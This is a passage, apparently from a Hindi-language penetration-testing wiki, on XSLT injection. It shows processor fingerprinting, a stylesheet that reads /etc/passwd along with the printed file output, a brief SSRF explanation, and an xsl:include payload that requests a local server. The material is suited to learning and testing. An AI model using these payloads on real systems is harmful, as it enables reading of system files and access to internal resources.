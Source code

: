 और क्रियान्वय करें
```markup
$saxonb-xslt -xsl:detection.xsl xml.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```
### स्थानीय फ़ाइल पढ़ें

{% code title="read.xsl" %}
```markup
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
{% endcode %}
```markup
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```
SSRF (Server Side Request Forgery) एक वेब अपवाद है जिसमें एक हमलावर वेब सर्वर को धोखा देता है और उसे अनुरोध करता है कि वह अन्य आंतरिक संसाधनों तक पहुंचें। यह आमतौर पर एक अनुरोध के रूप में URL का उपयोग करके किया जाता है, जिसे वेब सर्वर निर्धारित करता है। SSRF अटैक के द्वारा, हमलावर वेब सर्वर आंतरिक संसाधनों तक पहुंच कर सार्वजनिक और निजी नेटवर्कों को संसाधित कर सकता है, जिससे उसे अनुभव और अनुरोध कर सकता है।

SSRF अटैक के लिए कई तकनीकें हो सकती हैं, जैसे कि URL पैरामीटर, फ़ाइल प्रोटोकॉल, डीएनएस लुकअप, एचटीटीपी अनुरोध आदि। SSRF अटैक के द्वारा, हमलावर वेब सर्वर आंतरिक संसाधनों को अनुरोध कर सकता है, जैसे कि डेटाबेस, फ़ाइल सिस्टम, अन्य सर्वर, और नेटवर्क संसाधन।

SSRF अटैक को रोकने के लिए कुछ सुरक्षा उपाय हैं, जैसे कि इनपुट सत्यापन, वेब सर्वर कॉन्फ़िगरेशन, नेटवर्क सेग्रेगेशन, और अनुरोधों की सीमाएं सेट करना। SSRF अटैक की पहचान करने के लिए लॉग रिकॉर्डिंग और विश्लेषण भी महत्वपूर्ण हैं।
```markup
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```
### संस्करण
